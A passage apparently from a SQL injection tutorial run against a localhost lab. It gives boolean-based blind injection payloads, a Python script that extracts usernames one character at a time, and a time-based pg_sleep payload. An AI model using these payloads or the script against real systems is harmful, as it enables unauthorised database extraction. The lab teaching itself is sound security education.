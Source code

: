 ```sql
SELECT * FROM users WHERE id=1 AND SUBSTRING((SELECT username FROM users LIMIT 1 OFFSET 0), 1, 1) = 'a'
```
For the python script it looks kind of similar to the one we worked with previously, but now with a different payload. 

```python
import requests

# Target URL and payload template
url = "http://localhost:8080/blind.php?id=1 AND SUBSTRING((SELECT username FROM users LIMIT 1 OFFSET {offset}), {position}, 1) = '{char}'"

# Function to enumerate usernames
def enumerate_usernames():
    for offset in range(0, 3):  # Assuming there are 4 users.
        username = ""
        for position in range(1, 15):  # Assuming usernames are at most 15 characters long
            for char in "abcdefghijklmnopqrstuvwxyz":
                payload = url.format(offset=offset, position=position, char=char)
                response = requests.get(payload)
                if "User exists." in response.text:
                    username += char
                    print(f"Found character {char} at position {position} for user {offset + 1}")
                    break
        print(f"User {offset + 1}: {username}")

# Run the function to start enumeration
enumerate_usernames()

```

This automated script helps us find two users, `admin` and `janedoe`

![usernames](https://i.ibb.co/5gbBwG3M/image.png)

### Time-Based Blind Injection

There are times where the application returns absolutely no clues at all. Here attackers can resort to time-based attacks. Here they would still resort to using a series of questions to extract information from the database server, the difference this time is that the injected code will cause the server to delay in its response if the response is true. In the same way an immediate response is interpreted as a no. For example. 

![time](https://i.ibb.co/0jg0fPyP/image.png)

```sql
SELECT * FROM users WHERE id = 1; SELECT pg_sleep(10);
```

If this is true then the server will delay for 10 seconds before replying back with `User exists`. Similar payloads to Boolean based injections can also be utilized with Time-based injections in order to enumerate the database for information. 
